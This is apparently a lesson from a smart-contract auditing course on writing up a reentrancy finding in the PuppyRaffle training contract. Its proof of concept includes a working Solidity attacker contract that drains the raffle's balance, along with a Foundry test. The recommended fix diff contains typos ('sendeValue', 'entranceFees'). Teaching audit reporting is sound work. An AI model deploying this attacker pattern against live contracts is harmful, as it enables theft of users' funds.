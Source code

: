 ```yaml
---
title: Reporting - Reentrancy
---
```


_Follow along with this video:_

---

### Reporting Reentrancy

The next finding on our list is `reentrancy`, we finally get to write this up!

We know this is going to be a high, based on everything we went over and all we learnt about this vulnerability. Keeping in mind `<ROOT CAUSE> + <IMPACT>`, lets write a suitable title.

---

**Title:**

```
### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance
```

> **Note:** It's often a good idea to go through the steps of building a PoC to prove an issue before taking the time to write things up. We wrote a test for reentracy, that we'll be using, earlier.

On to the next parts of the report template.

---

For our description, we want to detail the specifics of the vulnerability, where it's located and the impact it has, using code snippets is a great way to point to trouble areas being discussed.

````

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that call do we update the `PuppyRaffle::players` array.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);
@>  players[playerIndex] = address(0);

    emit RaffleRefunded(playerAddress);
}
    ```
````

---

Next up is impact, let's clearly detail the effect of this vulnerability being exploited.

```
**Impact:** All fees paid by raffle entrants could be stolen by a malicious participant.
```

Simple enough.

---

Fortunately we wrote a test for the reentrancy vulnerability earlier, so we can absolutely paste that here. I like to explicitly walk through the steps of the exploit as well.

````
**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the PuppyRaffle balance.

<details>
<summary>PoC Code</summary>

Add the following to `PuppyRaffle.t.sol`

    ```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}

// test to confirm vulnerability
function testCanGetRefundReentrancy() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attack

    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();

    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
    ```
</details>
````

---

Last part - Recommendation. We know this, this protocol should be following CEI.

````
**Recommendation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally we should move the event emission up as well.

    ```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    +   players[playerIndex] = address(0);
    +   emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendeValue(entranceFees);
    -   players[playerIndex] = address(0);
    -   emit RaffleRefunded(playerAddress);
    }
    ```
````

---

Great! That's all there is to our `reentrancy` report. Be sure to mark these audit notes as actioned and we'll move on to the next vulnerability!
